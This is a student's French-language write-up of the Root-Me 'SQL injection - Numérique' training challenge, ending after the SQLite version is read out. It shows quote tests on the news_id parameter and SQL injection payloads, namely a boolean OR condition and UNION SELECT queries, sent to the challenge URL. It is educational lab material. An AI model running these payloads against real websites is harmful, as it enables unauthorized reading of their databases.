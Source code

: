 # Root-Me
## SQL Injection - Numérique

 Etudiant | Date | Sujet 
:---|:---|:---
Hamza Terir | 25/01/2023 | Exploiter une faille SQL pour extraire toutes les informations de la base de données

_____

Lien du challenge : https://www.root-me.org/fr/Challenges/Web-Serveur/SQL-injection-Numerique

## Reconnaissance

**Objectif** : Tester toutes les entrées sur l'application web pour essayer de déclancher un comportement innattendu.

### Identifier toutes les entrées sur l'application WEB

![ksnip_20230125-134849](https://user-images.githubusercontent.com/122984033/214567803-b7b44c41-6705-41d1-a1ff-947b32395810.png)

#### Page de login

![image](https://user-images.githubusercontent.com/122984033/214569739-1c6ec860-3eb3-4d38-b114-e8a457479a79.png)

Plusieurs tests ont été effectué dans les champs : 

- Login
- Password

Pas d'erreur à été remonté.

#### Système de News

![image](https://user-images.githubusercontent.com/122984033/214570072-cf714a75-d05f-4247-8b69-532849b26c75.png)

Lien : http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1

En ajoutant plusieurs payload dans le paramètre id, on obtient une erreur de la base de donnée :

```
http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1"
http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1'
```

![image](https://user-images.githubusercontent.com/122984033/214570180-d50d94fb-2e14-48fd-9280-c1d3f8659b11.png)

![image](https://user-images.githubusercontent.com/122984033/214570474-1c55efa3-a751-4d1b-a0e2-7b5f582eaacd.png)


#### Publication du site

Lien : http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=2

![Pasted image 20230125140529](https://user-images.githubusercontent.com/122984033/214575410-cbea3463-c130-46f9-9b8a-c8d8295663a1.png)

En ajoutant plusieurs payload dans le paramètre id de l'onglet publication du site, on obtient une erreur de la base de donnée :

```
http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=2"
http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=2'
```

![Pasted image 20230125140748](https://user-images.githubusercontent.com/122984033/214575506-695aeedb-9983-4661-8665-df1cf21f2296.png)


![Pasted image 20230125140809](https://user-images.githubusercontent.com/122984033/214575741-e5167305-1b01-4b93-bfc5-1ffd3475825f.png)

#### Bienvenue / Welcome

Lien : http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=3


![Pasted image 20230125141138](https://user-images.githubusercontent.com/122984033/214575846-0ca6044e-874b-466e-9695-dbf6e27a340f.png)


En ajoutant plusieurs payload dans le paramètre id de l'onglet Bienvenue / Welcome, on obtient une erreur de la base de donnée :

```
http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=3"
http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=3'
```

![Pasted image 20230125140956](https://user-images.githubusercontent.com/122984033/214575913-1d615128-1bf3-406e-ba82-6a0999df19ae.png)


![Pasted image 20230125141021](https://user-images.githubusercontent.com/122984033/214575973-da23c68f-2225-404f-b5e9-eb2bb9e85ecc.png)


### Point d'injections 

Voilà les points d'injections qui ont été identifier sur l'application web :


![Pasted image 20230125141229](https://user-images.githubusercontent.com/122984033/214576089-0f890d48-94d1-4f9c-b417-16cce2b6e39c.png)


## Exploitation

Nous allons exploiter cette faille pour l'utiliser à notre avantage.
Pour procéder à l'injection, je vais choisir le premier point d'injection qui a été trouvé :


![Pasted image 20230125141620](https://user-images.githubusercontent.com/122984033/214576180-a3c76850-3f6e-47fd-b717-78b3142b4c4d.png)


### Trouver la condition TRUE

Pour assurer l'extraction de la base de données, on doit trouver le payload qui nous donne la condition **TRUE**.


Après l'avoir trouvé sur l'application, le résultat devrait nous donné un résultat positive, en nous donnant aucune erreur sur la page :

En envoyant cette requête à l'aide de plusieurs payloads, on obtient bien une page sans erreur :

```
payload : 

1 OR 77=77 
1 OR 77=77 -- 
1 OR 77=77 --

format :

<url><payload>

Url :

http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1 OR 77=77
```

![Pasted image 20230125142422](https://user-images.githubusercontent.com/122984033/214576294-1a5302cc-71e2-404b-9431-55a49ab4bc3e.png)


Nous savons maintenant à l'aide des 3 "null" dans la payload que le nombre de colonnes dans la base de données sqlite est  de **3 colonnes**.

### Determiner le type des colonnes

On remplace chaque null par un chiffre, et on essaye de mettre des quotes pour chaques chiffres un par un pour nous permettre de determiner le type de chaques colonnes.

Après plusieurs tests on retrouves que les 3 colonnes sont des type INT (Entier) :

```
payload : 

1 UNION SELECT 1,2,3

Url : 

http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1 UNION SELECT 1,2,3
```

![Pasted image 20230125144403](https://user-images.githubusercontent.com/122984033/214579508-e9e10120-9360-4129-acd1-aede9b1742ee.png)

On peut voir les colonnes s'affichent sur la page.

### Information de la base de données

Maintenant qu'on peut afficher la table 2 et 3 sur la page on peut maintenant faire sortir toute les informations de la base de données.

#### Version SQlite 
```
payload :

1 UNION SELECT 1,sqlite_version(),3

Url :

http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1 UNION SELECT 1,sqlite_version(),3
```


![Pasted image 20230125145023](https://user-images.githubusercontent.com/122984033/214581884-cccd3cba-ae3b-4f8b-a0e0-488014cc61b9.png)






























































